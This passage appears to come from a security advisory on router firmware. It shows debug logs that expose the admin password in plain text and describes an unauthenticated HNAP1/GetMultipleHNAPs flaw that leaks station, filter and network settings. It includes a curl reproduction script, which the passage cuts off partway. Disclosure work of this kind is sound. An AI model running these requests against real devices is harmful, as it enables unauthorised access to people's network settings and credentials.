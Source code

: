     Jun 24 18:47:43 OpenWrt local0.debug prog-cgi[1382]: security.c:AUTH_ResponseHandler:2764:publickey:Oj/0G/EUmcyTSF1TOWsw
    Jun 24 18:47:43 OpenWrt local0.debug prog-cgi[1382]: security.c:AUTH_ResponseHandler:2766:publickey:Oj/0G/EUmcyTSF1TOWsw
    Jun 24 15:45:20 OpenWrt kern.warn kernel: [   32.212000] wtc_acquire_groupkey_wcid: Found a non-occupied wtbl_idx:125 for WDEV_TYPE:1
    Jun 24 15:45:25 OpenWrt kern.warn kernel: [   36.860000] wtc_acquire_groupkey_wcid: Found a non-occupied wtbl_idx:124 for WDEV_TYPE:1
    Jun 24 17:46:33 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD1
    Jun 24 17:57:12 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD1
    Jun 24 18:03:52 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD1
    Jun 24 18:05:19 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:05:35 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:23:03 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:30:01 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:30:16 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:30:28 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:32:09 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:39:45 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:46:40 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    Jun 24 18:47:43 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:640:cipher:ThisIsAPlainPWD
    ```

    As you can see the cipher filed is the admin password in plain text. There are private keys logged in hex string as well.

4. GetStationSettings, GetWebsiteFilterSettings and GetNetworkSettings could be accessed unauthenticated via HNAP1/GetMultipleHNAPs  

    **Description**:  

    HNAP1/GetMultipleHNAPs could be accessed unauthenticated but to some methods that lead to the information leakage.
    I notice that HNAP1/GetMultipleHNAPs maybe designed to allow unauthenticated access. But there is the sensitive information returned by some method. Like the following result, the parent_control_rule should not be obtained in this case.
    All of HNAP1/GetMultipleHNAPs access should be authenticated.  

    **Reproduce**:

    ```bash
    function getRouterBasicInfo
    {
        curl -H $HOST \
        -H 'Accept: application/json' \
        -H $Origin -H 'SOAPACTION: "http://purenetworks.com/HNAP1/GetMultipleHNAPs"' \
        -H 'Content-Type: application/json' -H 'Referer: http://192.168.51.1/Home.html' -H 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7' \
        -H 'Pragma: no-cache' \
        -H 'Cache-Control: no-cache' \
        --data-binary '{"GetMultipleHNAPs":{"GetStationSettings":"","GetWebsiteFilterSettings":"","GetNetworkSettings":""}}' \
        --compressed 'http://192.168.51.1/HNAP1/'